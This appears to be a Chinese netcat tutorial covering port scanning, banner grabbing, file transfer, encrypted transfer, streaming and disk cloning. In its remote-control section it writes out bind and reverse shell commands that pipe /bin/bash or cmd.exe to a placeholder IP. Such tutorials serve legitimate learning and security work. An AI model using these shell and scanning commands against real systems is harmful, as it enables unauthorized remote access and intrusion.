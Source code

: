 # netcat使用

## 1.netcat 简介

 **netcat是一个通过TCP/UDP在网络中进行读写数据工具（命令），被称为“瑞士军刀”**，主要用于调试领域、传输领域甚至黑客攻击领域。利用该工具，可以将网络中一端的数据完整的发送至另一台主机终端显示或存储，常见的应用为文件传输、与好友即时通信、传输流媒体或者作为用来验证服务器的独立的客户端。当然，也可以在脚本中使用该工具

现在的Linux都默认安装nc，只是版本可能不一致，导致某些参数不能通用，我以下介绍的是kail中的nc

## 2.功能介绍

-   侦听模式/传输模式
-   Telnet/获取banner信息
-   传输文本信息
-   传输文件/目录
-   加密传输文件
-   远程控制/木马
-   加密所有流量
-   流媒体服务器
-   远程克隆硬盘

## 3.命令介绍

```
nc -h					#可以看到nc版本和参数介绍
1
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/7221bca7a1124671ace7fc475a13235c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbmd5b25na2FuZzY2Ng==,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

**nc中比较常用的参数说明**

```
-4 : 强制nc使用ipv4
-6 : 强制nc使用ipv6
-D : 使用socket的方式
-d : daemon（后台）运行，就可以配置成服务
-l : 监听模式，如果没有特别指定后面常常隐式使用-p参数
-n : 使用ip的，而不使用域名
-p : 使用本地主机的端口，默认是tcp协议的端口
-r : 任意指定本地及远程端口
-s : 设置本地主机送出数据包的IP地址，主机上有多个IP时指定绑定的IP
-U : 使用Unix的socket
-u : 使用udp协议
-v : 详细输出
-z : 将输入输出关掉，即不进行交互，用于扫描时，注意在nmap的版本下没有这个参数
-w : 设置连接超时时间，单位秒
1234567891011121314
```

## 4.功能展示

### **1.端口扫描**

**命令：**

```
netcat -v ip port
netcat -nvz 1.1.1.1 1-65535
12
```

### **2.获取banner信息**

端口banner信息
1.它是端口的欢迎语。
2.banner信息包括：软件开发商、软件名称、服务类型、版本号等信息。
3.可通过banner信息，进行漏洞测试。如：对应的CVE漏洞等。

```
nc -nv 220.181.12.110 110
1
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/921e01bcc6cc43ac976679c978233b23.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbmd5b25na2FuZzY2Ng==,size_19,color_FFFFFF,t_70,g_se,x_16#pic_center)

### **3.传输文本信息、远程电子取证信息收集**

原则：不对目标对象进行修改，避免破坏证据

**使用场景**

**取证**
当目标机器被黑客攻击之后，取证人员可以利用nc的文件传输功能来获取目标机器上的文件内容。避免直接在目标机器上进行操作造成取证的误差。
单纯获取目标机器敏感文件

当目标机器上有一些文件内容，无法正常下载时，可以利用nc进行文件传输。
**为什么可以直接利用nc进行文件传输呢？**
nc中的数据传输 使用的是标准的输入、输出流，所以可以直接利用命令行来进行操作。

```
nc -l -p 4444(服务端)			   //-l   监听模式，用于入站连接   -p   指定端口
								// 在自己的电脑上开一个端口	4444	
nc -nv 1.1.1.1 4444(客户端) 

netstat -pantu | grep 4444
12345
```

正向文件传输

```
nc -lp 444 > 1.txt（服务端）
nc -lp 444 > 1.mp4

nc -nv 1.1.1.1 444 < 1.txt -q 1（客户端）
nc -nv 1.1.1.1 444 < 1.mp4 -q 1
12345
```

反向文件传输

```
nc -lp 444 < 1.txt -q 1（服务端）

nc -nv 1.1.1.1 444 > 1.txt（客户端）
123
-q 1      //传输完成后延迟1秒退出
1
```

### **4.传输目录**

```
tar -cvf - file/ | nc -lp 444 -q 1    		//发送端
nc -nv 1.1.1.1 444 | tar -xvf -				//接收端

tar -c   创建一个新归档			 //-cvf
    -x   从归档中解出文件			//-xvf
12345
```

### **5.加密传输文件**

加密传输文件需要使用 mcrypt 库，linux 系统默认是没有安装的，需要手动安装。随后和传输文件类似，只需要在传输文件时使用 mcrypt 加密即可。

```
nc -lp 333 | mcrypt --flush -Fbqd -a rijndael-256 -m ecb > 1.mp4

mcrypt --flush -Fbq -a rijndael-256 -m ecb < 1.mp4 | nc -nv 192.168.178.138 333 -q 1
123
```

### **6.流媒体服务**

对于直播的功能就类似于[流媒体](https://so.csdn.net/so/search?q=流媒体&spm=1001.2101.3001.7020)，就是对方把视频通过流的方式进行传输，传输多少，对方就会实时的播放多少。

首先，需要在要传送文件的机器上把文件通过管道给 nc，然后监听一个端口。在接收端，连接此端口然后通过管道给 mplayer 进行实时播放，mplayer 默认 linux 不安装，需要手动安装。其中 vo 参数是选择驱动程序，cache 是每秒要接收的播放帧

```
cat 1.mp4 | nc -lp 333

nc -nv 192.168.178.138 333 | mplayer -vo x11 -cache 3000 -
123
```

### **7.远程控制**

正向

```
nc -lp 444 -c bash

nc -nv IP 444
123
```

反向

```
nc -lp 444

nc IP 444 -c bash
注：windows 把bash改为cmd
1234
```

nc正向反弹shell(将shell弹到本地端口，随后使用nc链接本地端口)

```
nc -lvvp 7777 -e /bin/bash
1
```

nc反向反弹shell

```
nc ip 8888 -e /bin/bash  
nc ip 8888 -e c:\windows\system32\cmd.exe
12
```

### **8.远程硬盘克隆**

```
nc -lp 444 | dd of=/dev/sda						//接收端

dd if=/dev/sda | nc -nv 1.1.1.1 444 -q 1		//发送端
123
```

### **9.NCAT**

NC缺乏加密和身份验证的能力，NCAT弥补了NC的不足

Ncat包含于nmap工具包中

```
ncat -c bash --allow IP -vnl 333 --ssl

ncat -nv IP 333 --ssl
123
```